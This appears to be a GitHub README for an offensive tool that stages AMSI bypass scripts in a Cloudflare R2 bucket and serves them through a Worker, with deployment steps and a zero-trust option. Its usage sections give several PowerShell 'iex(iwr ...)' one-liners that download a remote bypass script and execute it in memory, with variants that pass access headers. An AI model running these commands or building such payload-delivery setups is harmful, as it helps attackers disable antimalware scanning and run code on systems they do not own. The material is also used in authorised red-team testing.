 # AMSI-R2

## Summary

Easy access to your amsi bypass script with Cloudflare workers and R2 bucket

## Description

Cloudflare worker function that selects a AMSI bypass file from a folder in a Cloudflare R2 bucket. The idea came from [Flangvik](https://twitter.com/Flangvik) [AMSI.fail](https://github.com/Flangvik/AMSI.fail).

## Features

- Using Cloudflare Workers and R2 feature (free tier is enough)
- Protect your endpoint behind CF zero-trust (free for 1-50 users)
- Deploy with Github actions

## Things you need

- Cloudflare account (you will need your account id)
- Cloudflare API token. Doc [here](https://developers.cloudflare.com/fundamentals/api/get-started/create-token/)
- Create a R2 bucket
- In your new R2 bucket, create a folder which will contain your AMSI bypass scripts. And obviously... add your scripts in that folder.
- Fork or clone the project
- Setup [Github secrets repository](https://docs.github.com/en/actions/learn-github-actions/variables#creating-configuration-variables-for-a-repository)
- A [domain setup in CF](https://developers.cloudflare.com/fundamentals/get-started/setup/add-site/) to use the [custom domain feature](https://developers.cloudflare.com/workers/configuration/routing/custom-domains/).
- You don't have to do any modifcation in `wrangler.toml` (except if you want to change the name of your worker or if you don't want to use a custom domain). We are using Github secrets to setup the `wrangler.toml` file.

note: to use without custom domain(not recommended), you will need to modify 2 things:

- remove the 3rd sed command in `.github/workflows/deploy.yml`
- remove the route section in `wrangler.toml`

## Installation

```bash
# fork the project
# setup secrets, R2, etc.
git clone https://github.com/<your-user>/AMSI-R2.git
cd AMSI-R2
# ...
git push -u origin main
# go see your workers in cloudflare interface
```

## How to use

```bash
# ex: random
curl "https://subdomain.yourdomain.com/<folder-name>"
iex(iwr -UseBasicParsing -Uri 'https://subdomain.yourdomain.com/<folder-name>');
# specific amsi bypass script
curl "https://subdomain.yourdomain.com/<folder-name>?payload=<the-payload-id>"
iex(iwr -UseBasicParsing -Uri 'https://subdomain.yourdomain.com/<folder-name>?payload=<the-payload-id>');
###
curl "https://amsi-r2.example.com/amsibypass"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass');
#
curl "https://amsi-r2.example.com/amsibypass?payload=2"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass?payload=2');
```

## How to use with CF zero-trust

- Generate [service auth token](https://developers.cloudflare.com/cloudflare-one/identity/service-tokens/).
- Add worker domain in CF zero-trust [application section](https://developers.cloudflare.com/cloudflare-one/applications/configure-apps/self-hosted-apps/). During the creation, setup a rule that allows your service token.

```bash
# curl command to access behind the zero-trust
curl "https://amsi-r2.example.com/amsibypass" -H "CF-Access-Client-Id: <your-CF-Access-Client-Id>" -H "CF-Access-Client-Secret: <your-CF-Access-Client-Secret>"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass' -Headers @{'CF-Access-Client-Id' = '<your-CF-Access-Client-Id>'; 'CF-Access-Client-Secret' = '<your-CF-Access-Client-Secret>'});
#
curl "https://amsi-r2.example.com/amsibypass?payload=2" -H "CF-Access-Client-Id: <your-CF-Access-Client-Id>" -H "CF-Access-Client-Secret: <your-CF-Access-Client-Secret>"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass?payload=2' -Headers @{'CF-Access-Client-Id' = '<your-CF-Access-Client-Id>'; 'CF-Access-Client-Secret' = '<your-CF-Access-Client-Secret>'});
```

## Todo

Integrate the logic/obfuscation of [AMSI.fail](https://github.com/Flangvik/AMSI.fail)

## More ?

You want something with a UI ? Take a look at [Some-R2-Explorer](https://github.com/service-yack/Some-R2-Explorer)

## Credits

- [Flangvik](https://twitter.com/Flangvik)
- [somecanadian](https://github.com/som3canadian)
